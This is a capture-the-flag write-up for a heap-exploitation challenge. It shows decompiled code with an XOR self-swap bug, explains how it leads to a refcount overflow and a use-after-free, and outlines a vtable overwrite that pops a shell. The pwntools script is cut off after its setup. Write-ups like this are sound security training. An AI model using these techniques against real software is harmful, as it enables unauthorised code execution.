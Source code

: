 ### the bug

```c
__int64 xor_swap_routine_entries(
        __int64 this,
        WorkoutRoutine *routine,
        unsigned __int8 ex_id_1,
        unsigned __int8 ex_id_2)
{
  // ... truncated ...
  if ( ex_id_1 < 0xAu && ex_id_2_ < 0xAu )
  {
    ex1 = &routine->exercise_slots[ex_id_1_];
    ex2 = &routine->exercise_slots[ex_id_2_];   // if v15 == v14, then v8 == v9. This nulls the exercise_slot.
    *ex1 = (*ex1 ^ *ex2);
    *ex2 = (*ex2 ^ *ex1);
    *ex1 = (*ex1 ^ *ex2);
    create_success_result();
    wrap_success_result(a1);
  }
  // ... truncated ...
}
```

1. Adding an `Exercise` to `Routine` increases the `Exercise->refcount` by 1
2. Swapping the `Exercise` with itself in `Routine` removes the pointer from the `Routine`
3. Repeat Step 1 **256 times** to overflow `Exercise->refcount` back to 1.
4. Delete the `Exercise` from the `Routine` which calls `destruct_exercise` to decrement `Exercise->refcount` to 0 which results in it getting free-ed.
5. Since we did not delete the `Exercise`, we still hold a pointer to the free-ed `Exercise` object and have a UAF.

### the exploit

After we have the UAF, we can allocate another `Routine` to re-use the free-ed memory. Now we have an overlapping `Exercise` and `Routine`.

We can **delete** and re-**allocate** the exercise to overwrite the `Routine->exercises[]` pointers.

This gives us an arbitrary read and arbitrary free. We can create fake chunks to be free-ed and overwrite the `vtable` entry to point to a `one_gadget` to pop a shell.

### exploit script

```py
from pwn import *
from tqdm import tqdm

elf = context.binary = ELF("workout")
libc = elf.libc
# if args.REMOTE:
# p = remote("localhost", 9999)
p = remote("cddc2025-challs-nlb-579269aea83cde66.elb.ap-southeast-1.amazonaws.com", 9999)
# else:
# 	p = elf.process()

sla = lambda a, b: p.sendlineafter(a, b)
sa = lambda a, b: p.sendafter(a, b)
sl = lambda a: p.sendline(a)
s = lambda a: p.send(a)
rl = lambda: p.recvline()
ru = lambda a: p.recvuntil(a)

def new_exercise(name):
```
